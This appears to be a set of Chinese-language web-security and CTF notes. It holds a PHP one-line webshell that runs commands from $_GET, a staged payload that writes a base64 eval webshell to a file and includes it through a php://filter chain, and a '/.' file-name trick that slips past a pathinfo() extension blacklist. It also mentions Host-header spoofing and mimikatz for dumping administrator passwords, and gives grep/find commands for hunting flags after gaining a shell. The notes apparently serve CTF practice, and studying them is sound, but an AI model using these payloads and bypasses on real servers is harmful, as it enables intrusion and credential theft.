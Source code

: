 ```php
$_GET[1];
exec($_GET[1]);

include$_GET[1]
foo.php?1=file_put_contents&param=$_GET[1](N, P, 8);
foo.php?1=file_put_contents&param=$_GET[1](N, D, 8);
					...
foo.php?1=file_put_contents&param=$_GET[1](N, W, 8);
/* 'PD9waHAgZXZhbCgkX1BPU1Rb0V0p0w' 被写入文件 'N' 中 */

foo.php?param=include$_GET[1];
&1=php://filter/read=convert.base64-decode/resource=N
```

**命令长度限制突破技巧**

**MySQL 突破换行符的技巧**

**命令执行waf绕过技巧**

**无字母数字webshell构造技巧**



'SERVER_NAME'

当前运行脚本所在的服务器的主机名。如果脚本运行于虚拟主机中，该名称是由那个虚拟主机所设置的值决定。

> **Note**: 在 Apache 2 里，必须设置 *UseCanonicalName = On* 和 *ServerName*。 否则该值会由客户端提供，就有可能被伪造。 上下文有安全性要求的环境里，不应该依赖此值。

$_server['server_name'] 一般来说是可控的，为下文的 Host 

```
POST / HTTP/1.1
Host: php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:65.0) Gecko/20100101 Firefox/65.0
```



```php
if(!in_array(pathinfo($log_name, PATHINFO_EXTENSION), 
  ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'], true)) {
     file_put_contents($log_name, $output);
}
```

只要在后缀名后加上`/.`，pathinfo() 就取不到后缀名，且可以正常写入`.php`之中



win-server 拿到权限后可通过 `mimikatz` 获得管理员密码

GitHub ：webdirscan weakfilescan bbscan



有几个同学在问CTF里flag怎么找，因为比较基础所以我没讲过。
拿到shell以后，如何找flag？

其实这也是实际安全测试中的一个问题：拿到shell后，如何找一些敏感信息，从而辅助后续渗透。拿code-breaking puzzles举例，首先查看官网的说明：[代码审计知识星球二周年 && Code-Breaking Puzzles](https://code-breaking.com/intro/) ，里面明确写了flag的格式是“flag{some_thing}”（图1）
那么我的目标就是，拿到shell以后在系统上找包含了这个格式的内容，这个内容可能是文件名、文件内容，甚至是数据库里的内容。
首先我肯定是在文件里找，如grep：grep -r 'flag{.\*}' .
还有一些其他方法，比如有的flag是写在文件里的，我就可以找包含了flag这个关键词的文件名：find / -name "\*flag\*"
当然，如果是php的题，不一定能拿到系统的shell。如果拿到的是webshell，也可以用php的scandir、glob等函数来遍历目录，查找flag。（参考 [ZH奶酪：PHP遍历目录/文件的3种方法 - ZH奶酪 - 博客园](https://www.cnblogs.com/CheeseZH/p/4560602.html) ）
